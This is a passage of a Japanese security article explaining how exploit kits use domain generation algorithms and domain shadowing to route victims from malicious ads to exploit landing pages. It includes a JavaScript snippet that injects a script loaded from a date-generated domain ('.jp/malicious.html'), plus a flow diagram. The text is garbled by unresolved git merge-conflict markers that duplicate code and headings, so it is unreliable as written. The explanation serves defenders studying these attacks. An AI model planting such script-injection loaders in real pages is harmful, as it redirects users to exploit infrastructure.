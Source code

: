 　Exploit\-kitなどで用いられている、DGAなどで Domain shadowingで生成したド
メインを生成します。DGAの例として、日付を用いたDGAも存在します。私的です
が、日付を用いたDGAは多く見受けます。

\-\-\-\-\-  日付を用いたDGA
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
function runonload(){
	if(!document.body){
		setTimeout(runonload,50);
	}else{
<<<<<<< HEAD
		var s = document.createElement("SCRIPT");
		s.src = "http://" + hashdate().toString(16) + “.jp/malicious.html?" + Math.random();
		document.body.appendChild(s);
	}
};
-----
=======
		var s \= document.createElement("SCRIPT");
		s.src \= "http://" + hashdate().toString(16) + “.jp/malicious.html?" + Math.random();
		document.body.appendChild(s);
	}
};
\-\-\-\-\-
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　これ以外では、”malicious.ruffnex.oc.to”になる様に配列に文字列を保持し、
サブドメインを生成する様仕組み用いるDGAなどもあります。
　DGA自体は多種多様な方法があるので、これと言った方法はありません。


<<<<<<< HEAD
■0x03.) Domain shadowing攻撃の流れ
=======
### 0x03 Domain shadowing攻撃の流れ
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　話を戻して、Domain shadowing攻撃の流れですが、図解では以下のような流れです。

[*1]                                  [*2]                                       [*3]
<<<<<<< HEAD
/****************************/ ===>  /***********************************/ ===> /*********************************/
/*    不正な広告ページなど  */ ===>  /*      malicious.ruffnex.oc.to    */ ===> /*  ランディングページ(exploitページ) */
/****************************/ ===>  /***********************************/ ===> /*********************************/
=======
/****************************/ \=\=\=>  /***********************************/ \=\=\=> /*********************************/
/*    不正な広告ページなど  */ \=\=\=>  /*      malicious.ruffnex.oc.to    */ \=\=\=> /*  ランディングページ(exploitページ) */
/****************************/ \=\=\=>  /***********************************/ \=\=\=> /*********************************/
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

